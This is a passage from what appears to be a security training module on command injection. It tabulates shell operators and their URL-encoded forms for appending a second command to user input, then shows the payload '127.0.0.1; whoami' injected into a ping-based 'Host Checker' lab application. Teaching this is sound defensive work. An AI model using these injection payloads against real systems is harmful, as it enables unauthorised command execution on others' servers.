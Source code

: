 ### Command Injection Methods

To inject an additional command to the intended one, we may use any of the following operators:
| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
| ------------------ | ------------------- | --------------------- | ---------------- |
| Semicolon | `;` | `%3b` | Both |
| New Line | `\n` | `%0a` | Both |
| Background | `&` | `%26` | Both (second output generally shown first) |
| Pipe | `\|` | `%7c` | Both (only second output is shown) |
| AND | `&&` | `%26%26` | Both (only if first succeeds) |
| OR | `\|\|` | `%7c%7c` | Second (only if first fails) |
| Sub-Shell | \`\` | `%60%60` | Both (Linux-only) |
| Sub-Shell | `$()` | `%24%28%29` | Both (Linux-only) |

We can use any of these operators to inject another command so both or either of the commands get executed. We would write our expected input (e.g., an IP), then use any of the above operators, and then write our new command.

Tip: In addition to the above, there are a few unix-only operators, that would work on Linux and macOS, but would not work on Windows, such as wrapping our injected command with double backticks (``) or with a sub-shell operator (`$()`).

In general, for basic command injection, all of these operators can be used for command injections regardless of the web application language, framework, or back-end server. So, if we are injecting in a `PHP` web application running on a `Linux` server, or a `.Net` web application running on a `Windows` back-end server, or a `NodeJS` web application running on a `macOS` back-end server, our injections should work regardless.

Note: The only exception may be the semi-colon `;`, which will not work if the command was being executed with `Windows Command Line (CMD)`, but would still work if it was being executed with `Windows PowerShell`.

## Injecting Commands

### Injecting Our Command

We can add a semi-colon after our input IP `127.0.0.1`, and then append our command (e.g. `whoami`), such that the final payload we will use is (`127.0.0.1; whoami`), and the final command to be executed would be:
```bash
ping -c 1 127.0.0.1; whoami
```
First, let's try running the above command on our Linux VM to ensure it does run:
```
21y4d@htb[/htb]$ ping -c 1 127.0.0.1; whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=1.03 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.034/1.034/1.034/0.000 ms
21y4d
```
As we can see, the final command successfully runs, and we get the output of both commands (as mentioned in the previous table for `;`). Now, we can try using our previous payload in the `Host Checker` web application:
![cmdinj_basic_injection](https://academy.hackthebox.com/storage/modules/109/cmdinj_basic_injection.jpg)
